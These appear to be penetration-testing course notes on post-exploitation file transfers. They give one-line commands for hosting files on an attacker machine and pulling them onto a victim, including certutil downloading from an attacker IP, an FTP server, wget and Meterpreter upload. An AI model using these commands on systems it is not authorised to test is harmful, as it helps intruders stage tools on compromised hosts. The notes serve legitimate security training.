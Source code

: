 ---

### **File Transfers - Summary and Methods**

1. **Typical Setup for Hosting Files (Attacker Perspective)**:
    - Use Python to host files via a simple HTTP server:
        
        ```Shell
        python -m http.server 80
        ```
        
    - Retrieve files on the victim machine (Windows):
        - Use `CertUtil` to download files.
            
            ```Bash
            certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
            ```
            
        - Navigate directly to the hosted file's address using a browser.
2. **Alternatives if** `**CertUtil**` **or Other Methods are Blocked**:
    - **FTP**:
        - Host an FTP server on the attacker's machine:
            
            ```Shell
            python -m pyftpdlib -p 21
            ```
            
        - Access the attacker-hosted FTP server from the Windows machine:
            
            ```Shell
            ftp <attacker-IP>
            ```
            
3. **File Retrieval Methods**:
    - **Linux**:
        - Use `wget` to fetch files:
            
            ```Shell
            wget <URL>
            ```
            
    - **Metasploit**:
        - Use the upload/download feature with a Meterpreter shell for easy file transfer.
4. **Key Notes**:
    - In post-exploitation scenarios:
        - **Common Approach**: Host a file on an HTTP/FTP server and retrieve using available tools.
        - Linux: Simplified via `wget`.
        - For Meterpreter, use native `upload/download` commands for efficiency.
5. **Review & Practice**:
    - These methods are critical for post-exploitation workflows.
    - Refer back to the mid-course capstone to reinforce and practice file transfer strategies.

---
